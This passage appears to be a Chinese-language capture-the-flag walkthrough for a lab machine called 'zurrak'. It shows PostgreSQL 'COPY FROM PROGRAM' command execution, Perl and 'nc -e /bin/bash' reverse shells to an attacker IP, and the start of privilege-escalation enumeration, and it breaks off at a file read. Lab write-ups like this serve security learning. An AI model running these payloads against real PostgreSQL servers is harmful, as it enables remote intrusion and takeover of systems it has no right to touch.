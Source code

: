 ```bash
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

```bash
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"172.20.10.8:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

似乎不行，换一个：

```bash
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'nc -e /bin/bash 172.20.10.8 1234';
SELECT * FROM cmd_exec;
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404071800989.png" alt="image-20240407172607479" style="zoom:50%;" />

## 提权

### 信息搜集

```bash
(remote) postgres@zurrak:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chfn
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/fusermount3
/usr/bin/su
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
(remote) postgres@zurrak:/$ find / -writable -type f 2>/dev/null
/var/log/postgresql/postgresql-15-main.log.2.gz
/var/log/postgresql/postgresql-15-main.log.1
/var/log/postgresql/postgresql-15-main.log
(remote) postgres@zurrak:/$ cd /home
(remote) postgres@zurrak:/home$ ls
postgres
(remote) postgres@zurrak:/home$ cd postgres/
(remote) postgres@zurrak:/home/postgres$ ls
emergency.sh  user.txt
(remote) postgres@zurrak:/home/postgres$ cat user.txt 
fe8f97f109ceb0362c95e60338c4c1a8
(remote) postgres@zurrak:/home/postgres$ ls -la
total 16
drwxr-xr-x 2 postgres postgres 4096 Oct 24 18:03 .
drwxr-xr-x 3 root     root     4096 Oct 20 19:06 ..
-rw------- 1 postgres postgres   28 Oct 24 16:47 emergency.sh
-rw-r--r-- 1 postgres postgres   33 Oct 20 20:23 user.txt
(remote) postgres@zurrak:/home/postgres$ cat emergency.sh 
```